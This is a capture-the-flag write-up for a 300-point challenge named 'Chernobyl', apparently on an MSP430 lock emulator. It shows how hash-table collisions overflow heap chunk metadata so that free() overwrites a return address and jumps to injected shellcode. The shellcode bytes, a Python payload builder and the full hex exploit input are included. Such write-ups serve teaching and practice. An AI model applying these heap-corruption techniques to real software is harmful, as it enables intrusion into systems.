










# Chernobyl - 300 points
 
## The idea
Creating a hash-table collision to exploit of function `free` and overwrite a return value.

## The way
This is one of the challenges that took me the longest to solve. And more than that, to explain.<br />
In my explanation I will try to give you an intuition for the solution.<br />
By the way, it must be said in fairness that the trial and error here actually took a lot of time.<br />
And so remember that when I explain for example about `malloc`, it's not because I had prior knowledge.<br />
But because I stared at the function a lot, I debugged it and that's how I understood things.<br />
This is also true for the hash table structure implemented here, etc.

Also, I believe there are multiple (similar) ways to solve this challenge.<br />
Personally, I succeeded in 3 ways.<br />
The first time I solved it was very forced and difficult to explain.<br />
When I wanted to explain what I did, I solved the challenge the second time in a better way.<br />
And from this I understood a third way which is relatively "simpler" and smarter.

So I will explain the third way.<br />
Let's start.

### Black box test:
A black box test shows a program that contains an account management system:

</img>
</img>

Let's explore the system in more depth.

### Explore the code:
Function `main` calls `run`, where everything happens.<br />
Therefore we will probably expect to overwrite a return value.

Below is the function `run`.<br />
It took me a long time to decompile it manually, but a look at it will explain the whole program well.<br />
Read **the c code** afterwards carefully:

</img>
</img>
</img>

```c
typedef struct user
{
    char username[16]; // including 0 at the end
    short pin;
} user;

typedef struct table
{
    short total;          // number of elements in the table
    short num_of_entries; // actualy 2 ^ num_of_entries is the number of entries.
    short num_of_cells;   // number of cells in each entry
    user **entrys;        // pointer to array with pointer for each entry.
    short **counters;     // pointer to array with counters for num of elements per entry.
    
} table;

void run()
{
    char stack_memory[0x600];
    char *username;                          // In the original code this memory is registers.
    short pin;                               // In the original code this memory is registers.

    // 2^3 entries, 5 cells for each entry
    table *table_p = create_hash_table(3, 5) // In the original code this memory is registers.

    puts("Welcome to the lock controller.");
    puts("You can open the door by entering 'access [your name] [pin]'");
    puts();

    while(1)
    {
        // clean the buffer and get user input.
        for(int i = 0; i < 0x600; i++) {stack_memory[i] = 0;}
        getsn(stack_memory, 0x550);

        int i = 0;
        while(stack_memory[i])
        {
            // command: 'access [USERNAME] [PIN]'
            if(stack_memory[i] == 'a')
            {
                username = stack_memory + i + 7;
                i =+ 7;

                // Preparing the username string for printing (reset last character)
                while(stack_memory[i])
                {
                    if(stack_memory[i] == ' ')
                    {
                        stack_memory[i] = 0;
                        break;
                    }
                    i++;
                }
                i++;

                // Converting a numeric string to the corresponding numeric value.
                pin = 0;
                while(stack_memory[i])
                {
                    if(stack_memory[i] != ';')
                    {
                        pin *= 10;
                        pin += stack_memory[i] - 0x30;
                    }
                    i++;
                }
                
                // Pointless attempt to gain access.
                short exist_pin = get_from_table(table_p, username);
                if(exist_pin == -1) puts("No such box.");
                pin ^= exist_pin;
                pin &= 0x7fff;
                if(pin >= 0)
                {
                    if(exist_pin < pin) puts("Access granted");
                    else puts("Access granted; Access granted; but account not activated.");
                }
                else puts("Aceess denied");
            }

            // Command: 'new [USERNAME] [PIN]'
            else if(stack_memory[i] == 'n')
            {
                username = stack_memory + i + 4;
                i =+ 4;

                // Preparing the username string for printing (reset last character)
                while(stack_memory[i])
                {
                    if(stack_memory[i] == ' ')
                    {
                        stack_memory[i] = 0;
                        break;
                    }
                    i++;
                }
                i++;

                // Converting a numeric string to the corresponding numeric value.
                pin = 0;
                while(stack_memory[i])
                {
                    if(stack_memory[i] != ';')
                    {
                        pin *= 10;
                        pin += stack_memory[i] - 0x30;
                    }
                    i++;
                }

                if(pin >= 0)
                {
                    if(get_from_table(table_p, username) == -1)
                    {
                        printf("Adding user acount %s with pin %x..", username, pin);

                        // Save the new user. very interesting...
                        add_to_table(table_p, username, pin);
                    }
                    else puts("User already has an acount.");
                }
                else puts("Can not have a pin with higth bit set.");
            }

            // Command: any other..
            else
            {
                puts("Invalid command.");
                return 1;
            }
            
            // Move all over the ";" until the next command.
            while(stack_memory[i] == ';') stack_memory[i++] = 0;
        }
    }
}
```

The code above tells us a few things:
* The return value cannot be overridden using stack overflow
* `printf`'s weakness cannot be used
* Nothing interesting happens with the _access_ command, even if we enter correct user details.
* **There is a new functionality** to add users by a command that starts with n.
    * The length of the command is 3 letters, so we will call it "new" for convenience.
    * The new users will be saved in a hash table.

The new functionality was not known to us before, so there is reason to suspect that it is the heart of the matter.<br />
And so we will turn our attention to the following two functions: `create_hash_table` and `add_to_table`.<br />
The function `create_hash_table` creates a hash table structure that is allocated in heap memory.<br />
Let's see the table in memory immediately after the operation of the function:

</img>

* Blue: struct table
* Green: array with pointers to entries.
* Purple: array with counter of elements for each entry.
* Yellow: the entries.

Now we will go to the `add_to_table` function, which should fill the table with new users after the _new_ command.<br />
At this point I went to learn about hash tables, and I learned that **there is a function called `hash` that receives some input and returns the index where it will enter in the table**. And indeed, `add_to_table` calls `hash`. Let's look at the `hash`:

</img>

And this is how the same function looks in Python.<br />
(except for the return line, which `add_to_table` does the modulo operation itself)

```python
NUM_OF_ENTRIES = 8

def hash(username):
    index = 0
    
    for c in username:
        index += ord(c)
        index *= 31

    return index % NUM_OF_ENTRIES
```

In fact, following the discovery of the hash function, we can know in advance which entry in the table the username will enter.<br />
But, what can we do with it?

### How to exploit:
The following explanation assumes that you know very well how function `free` works.<br />
If you do not know this, or if you have forgotten, turn to the Algiers challenge.

The thing that comes to mind is the challenge of Algiers.<br />
Can we overwrite heap metadata? And if so, what do we do with it?

Let's look at what happens when you enter exactly 5 users to the same entry (Of course we used the recovered `hash` to make sure that our input goes where we want):

Input: `new aa 1;new bb 2;new cc 3;new dd 4;new ee 5`<br />
Output:<br />
</img><br />
Heap memory:<br />
</img>
* White: struct user (username and pin) x 5

Now we will try to insert another input (into the same entry) to check whether it is really possible to overwrite the metadata or whether there is any integrity check on the amount of elements in the input (should be up to 5..)

Input: `new ff 6`<br />
Output:<br />
</img><br />
Heap memory:<br />
</img>
* The metadata of _entry 1_ (the second entry) has been overridden.

This means there is no security check.<br />
Can we overwrite as much as we want? No.<br />
A trial and error reveals to us that up to 0xb elements can be inserted into the table, and after the 0xc value a `rehash` is performed.

So I went to learn about the meaning of `rehash` in the context of hash tables. It turns out that in order to keep the table balanced, starting from a certain amount of elements (every implementation is different. Here starting from 0xb) a larger table is allocated, all the elements are transferred from the old table to the new one (with a new index that depends on the size of the table. That's why it's called "rehash") and then the old table released.

And so, similar to the Algiers challenge, we'll want to use `free` to change a return value.<br />
Here is the return value that we would like to change:

</img>
* `3e44` - 0x443e, return value from `run` back to `main`.
* address of this return value is 0x43f6

In the code itself there is no visible option to open the door.<br />
And so we would like to inject a code and jump to it..<br />
Where can we inject the code? into the table of course.<br />
So we will inject code into the table and then check its address.
We will remember that the code we built must not have the bytes \x00 and 
\x20 and we will build the following code:

```asm
xor	r15, r15        ; r15 = 0000
mov.b	#0x117f, r15    ; r15 = 007f
push	r15
call	#0x4cec         ; address of INT
```

The code above in bytes looks like this: `0fef7f407f110f12b012ec4c`<br />
And we would like to insert it into one of the entries in the table and also change the metadata of the next entry. But which one?<br />

We plan to use the same technique from the Algiers challenge.<br />
For this, as part of the process we will want to overwrite the prev of chunk, so that when you release it what will happen is a change of the return value.<br />
And now unlike the challenge of Algiers **we have a problem: the release order is from top to bottom.** So with each release, the prev of the next will change. So how can we change the prev of one of the entries in the table, if it changes before we release it?

The answer is that only the release of _entry 0_ does not change the prev of _entry 1_. Because above _entry 0_ the memory has not been released yet. So we will overwrite the metadata of _entry 1_ by inserting it into _entry 0_.

Let's put the first input, which is a program that opens a door, into _entry 0_.
*  ```python
   unlock_door_code = "\x0f\xef\x7f\x40\x7f\x11\x0f\x12\xb0\x12\xec\x4c"
   hash(unlock_door_code) # == 0
   ```
* therefore, there is no need to add more characters to it to make it enter index 0.
* So, this is the python code that create the input:
  ```python
  print(b'new \x0f\xef\x7f\x40\x7f\x11\x0f\x12\xb0\x12\xec\x4c 0'.hex())
  # 6e6577200fef7f407f110f12b012ec4c2030
  ```

Input: `6e6577200fef7f407f110f12b012ec4c2030`<br />
Output:<br />
</img><br />
Heap memory:<br />
</img>
* White: **injected code at address 0x5042**
* Red:
    * `3c50` - 0x503c, prev of _entry 1_.
    we want it to be 0x43f2 witch is the addrss of the fake "chunk" with the return value.
    * `fc50` - 0x50fc, next of _entry 1_.
    If we leave it, then it is the one that will cause the prev of _entry 2_ to be 0x43f2. And this will cause the following releases to change the fake "chunk" (because everyone will unite with it, according to `free`..). So we will change it to something else. But for what?
    * `b500` - 0xb5, size of chank of _entry 1_.
    we want it to be (0x5042 - 0x443e - 6 = ) 0xbfe, or 0xbff with the flag of malloc.

So, what will be the value of the next of _entry 1_?<br />
We'd like something that wouldn't be its current value 0x50fc, of course.<br />
But there is another interesting thing here - if we are not careful, we will get a **heap exceeded** error. And that's because of the `rehash` process.<br />
`rehash` calls `malloc` **before** the `free`.<br />
And function `malloc` goes from the beginning of the heap to all the next of all the chunks and looks for the end (linked list). If the search for the end of the list fails, the error will be raised.<br />
And so when we change the value of the next of _entry 1_, we will also want such a value that will not interfere with the "trip" of `malloc`.<br />
Therefore we would like to change it, to be the address of the last node in the linked list.<br />
The address of the last node in the linked list is the same as the next of _entry 7_. ie 0x533c.

And in addition, we won't have to worry about an unexpected addition to the value 0x5042 (which replaces the return value). because when _entry 1_ is released, `free` will treat its next as a chunk that was not released (which is actually the start of the newly allocated table).

Everything I've said so far has come from trial and error.<br />
Hope things are clear.<br />
We will now summarize the change made to the metadata of _entry 1_:
* `3c50`, 0x503c (prev of chunk of _entry 1_) replace by 0x43f2 - `f243`
* `fc50`, 0x50fc (next of chunk of _entry 1_) replace by 0x533c - `3c53`
* `b500`, 0xb5 (size of chunk of _entry 1_) replace by 0x0bff - `ff0b`

And now we will build our input with python:

```python
# injection code for unlock the door to entry-0
unlock_door_code = b'new \x0f\xef\x7f\x40\x7f\x11\x0f\x12\xb0\x12\xec\x4c 0;'.hex()

# fill entry-0
fill_entry_0 = b'new bb 0;new cc 0;new dd 0;new ee 0;'.hex()

# overwrite the metadata of entry-1
prev_of_entry1 = b'\xf2\x43'
next_of_entry1 = b'\x3c\x53'
size_of_entry1 = b'\xff\x0b'
overwrite_metadata = (b'new ' + prev_of_entry1 + next_of_entry1 + size_of_entry1 + b'\x44' + b' 0;').hex() # '\x44' only because it will cause the whole string to go into index 0

# add up to 11 inputs to fill the table (without overwrite again!)
fill_table = b'new a 0;new b 0;new c 0;new d 0;new e 0;'.hex()

# the 12th input triggers a rehash
rehash_trigger = b'new f 0;'.hex()

# Invalid command to reach "ret"
end_program = b'\x01'.hex()


print("Pleasant hack:")
print(unlock_door_code + fill_entry_0 + overwrite_metadata + fill_table + rehash_trigger + end_program)
```

If you've come this far, give yourself a candy!<br />
Good luck.

## The cracking input (as bytes)
```
6e6577200fef7f407f110f12b012ec4c20303b6e657720626220303b6e657720636320303b6e657720646420303b6e657720656520303b6e657720f2433c53ff0b4420303b6e6577206120303b6e6577206220303b6e6577206320303b6e6577206420303b6e6577206520303b6e6577206620303b01
```

**Below is the input in stages for debugging purposes (note when it is not in bytes):**
```
6e6577200fef7f407f110f12b012ec4c2030
```
```
new bb 0;new cc 0;new dd 0;new ee 0
```
```
6e657720f2433c53ff0b442030
```
```
new a 0;new b 0;new c 0;new d 0;new e 0
```
```
new f 0
```
```
exit
```